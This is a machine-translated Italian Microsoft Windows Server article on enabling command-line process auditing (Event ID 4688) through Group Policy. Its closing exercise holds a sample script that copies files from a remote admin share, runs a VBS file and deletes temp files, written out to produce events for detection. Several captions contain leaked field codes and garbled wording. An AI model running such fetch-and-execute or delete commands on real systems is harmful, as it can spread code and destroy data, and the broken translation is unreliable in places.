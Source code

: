 ```yaml
---
ms.assetid: c8597cc8-bdcb-4e59-a09e-128ef5ebeaf8
title: Controllo dell'elaborazione della riga di comando
description: ''
author: MicrosoftGuyJFlo
ms.author: joflore
manager: mtillman
ms.date: 05/31/2017
ms.topic: article
ms.prod: windows-server
ms.technology: identity-adds
ms.openlocfilehash: 5d5ab971327ab7ec16bf2748571882458cc38f72
ms.sourcegitcommit: 6aff3d88ff22ea141a6ea6572a5ad8dd6321f199
ms.translationtype: MT
ms.contentlocale: it-IT
ms.lasthandoff: 09/27/2019
ms.locfileid: "71368992"
---
```

# <a name="command-line-process-auditing"></a>Controllo dell'elaborazione della riga di comando

>Si applica a: Windows Server 2016, Windows Server 2012 R2

**Autore**: Justin Turner, Senior Support Escalation Engineer con il gruppo di Windows  
  
> [!NOTE]  
> Questo contenuto è stato redatto da un ingegnere del Supporto tecnico Microsoft ed è destinato ad amministratori esperti e architetti di sistemi che desiderano una spiegazione tecnica delle funzionalità e delle soluzioni relative a Windows Server 2012 R2 più approfondita rispetto agli argomenti solitamente disponibili su TechNet. Non è stato tuttavia sottoposto agli stessi passaggi redazionali e, di conseguenza, per alcune lingue potrebbe essere meno accurato della documentazione che si trova in genere su TechNet.  
  
## <a name="overview"></a>Panoramica  
  
-   L'evento di controllo Creazione 4688 ID processo preesistenti ora includerà informazioni di controllo per i processi di riga di comando.  
  
-   Hash SHA1/2 del file eseguibile verrà inoltre registrato nel registro eventi di Applocker  
  
    -   Applicazioni e servizi\microsoft\windows\applocker  
  
-   Si abilita tramite oggetto Criteri di gruppo, ma è disabilitato per impostazione predefinita  
  
    -   "Includi riga di comando di elaborare gli eventi di creazione"  
  
![il controllo della riga di comando](media/Command-line-process-auditing/GTR_ADDS_Event4688.gif)  
  
**Figura SEQ figura \\ @ no__t-2 4688 arabo 16 evento**  
  
Esaminare l'evento ID 4688 aggiornato in REF _Ref366427278 \h figura 16.  Prima di questa aggiornare nessuna delle informazioni per **riga di comando processo** viene registrato.  A causa di questa registrazione aggiuntiva ora noteremo che è stato avviato il processo wscript.exe non solo, ma che è stato inoltre utilizzato per eseguire uno script VB.  
  
## <a name="configuration"></a>Configurazione  
Per osservare gli effetti di questo aggiornamento, è necessario abilitare due impostazioni dei criteri.  
  
### <a name="you-must-have-audit-process-creation-auditing-enabled-to-see-event-id-4688"></a>È necessario che il controllo è attivato per verificare l'evento ID 4688 la creazione del processo di controllo.  
Per abilitare i criteri di creazione del processo di controllo, modificare i criteri di gruppo seguente:  
  
**Percorso criterio:** Configurazione computer > criteri > impostazioni di Windows > impostazioni di sicurezza > configurazione di controllo avanzata > rilevamento dettagliato  
  
**Nome criterio:** Controlla Creazione di processi  
  
**Supportato in:** Windows 7 e versioni successive  
  
**Descrizione/guida:**  
  
Questa impostazione di criteri di protezione determina se il sistema operativo genera eventi di controllo quando viene creato un processo (inizio) e il nome del programma o dell'utente che l'ha creata.  
  
Questi eventi di controllo consente di comprendere come viene utilizzato un computer e tenere traccia delle attività dell'utente.  
  
Volume evento: Da basso a medio, a seconda dell'utilizzo del sistema  
  
**Predefinita** Non configurato  
  
### <a name="in-order-to-see-the-additions-to-event-id-4688-you-must-enable-the-new-policy-setting-include-command-line-in-process-creation-events"></a>Per visualizzare le aggiunte all'ID evento 4688, è necessario abilitare la nuova impostazione dei criteri: Includere la riga di comando nel elaborare gli eventi di creazione  
**Tabella SEQ tabella \\ @ no__t-2 l'impostazione dei criteri di elaborazione della riga di comando in arabo 19**  
  
|Configurazione dei criteri|Dettagli|  
|------------------------|-----------|  
|**Percorso**|Creazione di processi amministrativi Templates\System\Audit|  
|**Impostazione**|**Includi riga di comando negli eventi di creazione del processo**|  
|**Impostazione predefinita**|Non configurata (non abilitata)|  
|**Supportato in:**|?|  
|**Descrizione**|Questa impostazione di criterio determina quali informazioni vengono registrate negli eventi di controllo di sicurezza quando viene creato un nuovo processo.<br /><br />Questa impostazione si applica solo quando il criterio di creazione del processo di controllo è abilitato. Se si abilita questa impostazione di criteri, che le informazioni della riga di comando per ogni processo verranno registrate in testo normale nel registro eventi di protezione come parte dell'evento di creazione del processo di controllo 4688, "un nuovo processo creato," sulla workstation e server in cui viene applicata questa impostazione di criteri.<br /><br />Se si disabilita o non si configura questa impostazione di criteri, le informazioni del processo della riga di comando non includerà negli eventi di creazione del processo di controllo.<br /><br />Valore predefinito: Non configurato<br /><br />Nota: Quando questa impostazione dei criteri è abilitata, qualsiasi utente con accesso per leggere gli eventi di sicurezza sarà in grado di leggere gli argomenti della riga di comando per qualsiasi processo creato correttamente. Argomenti della riga di comando possono contenere informazioni riservate o private, ad esempio password o dati utente.|  
  
![il controllo della riga di comando](media/Command-line-process-auditing/GTR_ADDS_IncludeCLISetting.gif)  
  
Quando si utilizzano le impostazioni di Configurazione avanzata dei criteri di controllo, è necessario confermare che tali impostazioni non vengano sovrascritte dalle impostazioni di base dei criteri di controllo.  Evento 4719 viene registrato quando le impostazioni vengono sovrascritte.  
  
![il controllo della riga di comando](media/Command-line-process-auditing/GTR_ADDS_Event4719.gif)  
  
La procedura seguente illustra come evitare conflitti, bloccando l'applicazione di eventuali impostazioni di base dei criteri di controllo.  
  
### <a name="to-ensure-that-advanced-audit-policy-configuration-settings-are-not-overwritten"></a>Per verificare che le impostazioni di Configurazione avanzata dei criteri di controllo non vengano sovrascritte  
![il controllo della riga di comando](media/Command-line-process-auditing/GTR_ADDS_AdvAuditPolicy.gif)  
  
1.  Aprire la console Gestione criteri di gruppo  
  
2.  Fare doppio clic su criterio dominio predefinito e quindi fare clic su Modifica.  
  
3.  Fare doppio clic su configurazione Computer, fare doppio clic su criteri e quindi fare doppio clic su impostazioni di Windows.  
  
4.  Fare doppio clic su impostazioni di sicurezza, fare doppio clic su criteri locali e quindi su opzioni di sicurezza.  
  
5.  Fare doppio clic su audit: Forzare le impostazioni della sottocategoria dei criteri di controllo (Windows Vista o versione successiva) per sostituire le impostazioni di categoria dei criteri di controllo e fare clic su Definisci questa impostazione.  
  
6.  Fare clic su attivato e quindi fare clic su OK.  
  
## <a name="additional-resources"></a>Risorse aggiuntive  
[Creazione del processo di controllo](https://technet.microsoft.com/library/dd941613(v=WS.10).aspx)  
  
[Guida dettagliata ai criteri avanzati di controllo della sicurezza](https://technet.microsoft.com/library/dd408940(v=WS.10).aspx)  
  
[AppLocker: domande frequenti](https://technet.microsoft.com/library/ee619725(v=ws.10).aspx)  
  
## <a name="try-this-explore-command-line-process-auditing"></a>Provare: Esplorazione del controllo del processo della riga di comando  
  
1.  Abilitare **la creazione del processo di controllo** eventi e verificare la configurazione dei criteri di controllo avanzate non viene sovrascritto.  
  
2.  Creare uno script che genera alcuni eventi di interesse ed eseguire lo script.  Osservare gli eventi.  Lo script utilizzato per generare l'evento nella lezione simile al seguente:  
  
    ```  
    mkdir c:\systemfiles\temp\commandandcontrol\zone\fifthward  
    copy \\192.168.1.254\c$\hidden c:\systemfiles\temp\hidden\commandandcontrol\zone\fifthward  
    start C:\systemfiles\temp\hidden\commandandcontrol\zone\fifthward\ntuserrights.vbs  
    del c:\systemfiles\temp\*.* /Q  
    ```  
  
3.  Abilitare il controllo dell'elaborazione della riga di comando  
  
4.  Eseguire lo stesso script e osservare gli eventi  
  


